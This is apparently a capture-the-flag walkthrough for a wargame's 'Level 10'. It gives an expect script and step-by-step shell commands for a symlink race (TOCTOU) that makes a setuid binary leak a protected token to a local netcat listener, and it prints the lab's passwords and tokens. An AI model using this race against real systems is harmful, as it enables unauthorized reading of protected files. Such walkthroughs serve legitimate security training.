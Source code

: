 # Level 10
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level10@$ip -p 4242 "mkdir -p /tmp/level10 ; cd /tmp/level10 ; rm -rf ./* ; chmod 777 . ; touch /tmp/level10/file ; killall -q -w nc ; nc -k -l 6969 > /tmp/level10/rec & for i in \`seq 1 1000\`\; do ln -fs /tmp/level10/file /tmp/level10/link; ln -fs /home/user/level10/token /tmp/level10/link; done & for i in \`seq 1 1000\`\; do /home/user/level10/level10 /tmp/level10/link 127.0.0.1 >> /tmp/level10/send; done ; cat /tmp/level10/rec | grep '\[a-z0-9\]' | head -1"
	expect "sword:"
	send "s5cAJpM8ev6XHw998pRWG728z\r"
	expect -re "\r\n(.*?)\r\n"
	set password $expect_out(1,string)
	spawn ssh -o "StrictHostKeyChecking no" flag10@$ip -p 4242 "getflag"
	expect "sword:"
	send "$password\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- Run the file `level10`
	```sh
	$ ./level10
	```
- Make `level10` directory in `/tmp` location
	```sh
	$ mkdir -p /tmp/level10
	$ rm -rf /tmp/level10/*
	$ chmod 777 /tmp/level10
	```
- Run the next commands to find the token
	```sh
	$ touch /tmp/level10/file
	$ killall -q -w nc
	$ nc -k -l 6969 > /tmp/level10/rec &
	$ for i in `seq 1 1000`; do ln -fs /tmp/level10/file /tmp/level10/link; ln -fs /home/user/level10/token /tmp/level10/link; done &
	$ for i in `seq 1 1000`; do /home/user/level10/level10 /tmp/level10/link 127.0.0.1 >> /tmp/level10/send; done
	$ more /tmp/level10/rec
	```
- Switch to the user `flag10` with the given token `woupa2yuojeeaaed06riuj63c`
	```sh
	$ su flag10
	Password: woupa2yuojeeaaed06riuj63c
	```
- Run `getflag` command to get the flag
	```sh
	$ getflag
	``` 
- With the token provided `feulo4b72j7edeahuete3no7c` switch to the next user level
	```sh
	$ su level11
	Password: feulo4b72j7edeahuete3no7c
	``` 
